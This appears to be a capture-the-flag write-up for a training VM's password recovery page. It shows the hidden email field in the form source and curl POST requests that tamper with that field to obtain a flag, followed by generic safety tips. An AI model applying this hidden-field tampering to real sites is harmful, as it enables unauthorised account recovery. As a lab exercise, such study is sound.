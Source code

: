 # Password recover Page

__http://192.168.56.101/?page=recover__

## Description
This page for password recovering. 

## Form Outputs
Let's look on the page source exactly to ```</form>``` tag.

```
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value="Submit">
</form>
```
We get the email __webmaster@borntosec.com__.

## Flag
Let's use obtained email and compare with random email.
```
curl -s 'http://192.168.56.101/?page=recover' --data 'mail=webmaster%40borntosec.com&Submit=Submit' -o webmaster.html
curl -s 'http://192.168.56.101/?page=recover' --data 'mail=krasty%40lnoisome.com&Submit=Submit' -o krasty.html
diff webmaster.html krasty.html 
```
Inside the diff output html we get the flag

## Safety
When it comes to web safety, there are a few important points to consider based on the exercise: </br>
1. Be cautious with password recovery pages: Password recovery pages should be handled with care as they often involve sensitive information. It's crucial to ensure that the page is secure and that any personal data, such as email addresses, are protected.
2. Check the page source: Examining the page source can often reveal important information about a website's functionality or vulnerabilities. In this exercise, checking the page source helped uncover the email address associated with password recovery.
3. Protect personal information: The exercise demonstrates the importance of protecting personal information, such as email addresses. It's crucial to be mindful of who has access to this information and how it is stored or shared.
4. Use secure connections: When interacting with web pages that involve sensitive information, make sure to use secure connections (HTTPS) to protect your data from potential eavesdropping or interception.
5. Implement security measures: As a user, it's important to implement security measures such as strong, unique passwords for different online accounts, enabling two-factor authentication, and regularly updating software and applications to minimize potential security risks.

